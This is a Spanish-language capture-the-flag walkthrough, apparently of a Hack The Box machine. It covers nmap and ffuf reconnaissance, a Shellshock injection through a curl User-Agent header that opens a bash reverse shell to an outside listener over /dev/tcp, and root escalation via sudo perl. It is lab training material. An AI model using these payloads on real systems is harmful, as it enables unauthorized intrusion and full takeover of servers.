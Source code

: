  
We start with a scan of ports and services using the nmap tool.
```JavaScript
sudo nmap -p- --open -sS --min-rate 5000 -n -v -sV -Pn 10.10.10.56 > escaneo.txt
```
![[/Untitled 37.png|Untitled 37.png]]
Encontramos que los puertos 80 (http) y 2222(ssh) estan abiertos,
ademas el puerto 80 corre un servicio apache.
Usaremos la herramienta whatweb para escanear la web antes de visitarla
![[/Untitled 1 3.png|Untitled 1 3.png]]
![[/Untitled 2 4.png|Untitled 2 4.png]]
Visitamos la web
  
  
Al ver que no encontramos nada en la web ni en los metadatos de la imagen hacemos un fuzzing de directorios y extensiones
Sin la / despues del FUZZ
```JavaScript
ffuf -w ../../../diccionario/Directorios/directory-list-2.3-medium.txt -u http://10.10.10.56/FUZZ -e .txt,.html,.php -c
```
![[/Untitled 3 4.png|Untitled 3 4.png]]
Hemos lanzado el escaneo sin la / al final y no encuentra nada por lo que la añadiremos a ver que pasa (algunos directorios no los encuentra con la barra al final vicebersa)
```JavaScript
ffuf -w ../../../diccionario/Directorios/directory-list-2.3-medium.txt -u http://10.10.10.56/FUZZ/ -e .txt,.html,.php -c
```
![[/Untitled 4 3.png|Untitled 4 3.png]]
Hemos encontrado estos directorios
cgi-bin es un directorio que permite la ejecucion de scripts basados en Perl y Shell.  
Buscamos vulneravilidades  
  
[https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/cgi](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/cgi)
  
Encontramos en la web el siguente escaneo para ver si es vulbnerable o no
```JavaScript
nmap 10.2.1.31 -p 80 --script=http-shellshock --script-args uri=/cgi-bin/admin.cgi
```
En la uri vemos que se indica un archivo, asumimos que no es el mismo y hacemos un fuzzing para ver cual es el nuestro.  
Teniendo en cuenta los scripts que se ejecutan en este directorio haremos un escaneo con unas externsiones concretas  
.pl,.pm,.t,.sh,.bash,.zsh,.ksh
```JavaScript
ffuf -w Desktop/diccionario/Directorios/directory-list-2.3-medium.txt -u http://10.10.10.56/cgi-bin/FUZZ -e pl,.pm,.t,.sh,.bash,.zsh,.ksh -c
```
este es nuestro archivo
![[/Untitled 5 3.png|Untitled 5 3.png]]
Procedemos a comprobar si es vulnerable o no la web en cuestión
```JavaScript
nmap 10.10.10.56 -p 80 --script=http-shellshock --script-args uri=/cgi-bin/user.sh
```
![[/Untitled 6 3.png|Untitled 6 3.png]]
Ejecutamos
```JavaScript
curl -H 'User-Agent: () { :; }; "' http://10.10.10.56/cgi-bin/user.sh 2>/dev/null
```
Devuelve  
  
![[/Untitled 7 3.png|Untitled 7 3.png]]
Al introducir 10.10.10.56/cgi-bin/user.sh en el navegador se nos descarga el archivo y comprobamos que el contenido es el mismo, por lo que es vulnerable.
Esta es la reverse shell
```JavaScript
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.37/4444 0>&1' http://10.10.10.56/cgi-bin/user.sh
```
Nos ponemos en escucha y la ejecutamos
  
![[/Untitled 8 3.png|Untitled 8 3.png]]
Hacemos un sudo -l y vemos si podemos ejecutar algun binario como sudo
![[/Untitled 9 3.png|Untitled 9 3.png]]
Vemos que podemos ejecutar el binario perl como sudo por lo que nos dirigimos a GTFOBins
![[/Untitled 10 3.png|Untitled 10 3.png]]
![[/Untitled 11 3.png|Untitled 11 3.png]]
Ejecutamos el comando
```JavaScript
sudo perl -e 'exec "/bin/sh";'
```
![[/Untitled 12 2.png|Untitled 12 2.png]]
Ya somos Root!!!!!!!!!!  
  
User flag  
![[/Untitled 13 2.png|Untitled 13 2.png]]
Root flag
![[/Untitled 14 2.png|Untitled 14 2.png]]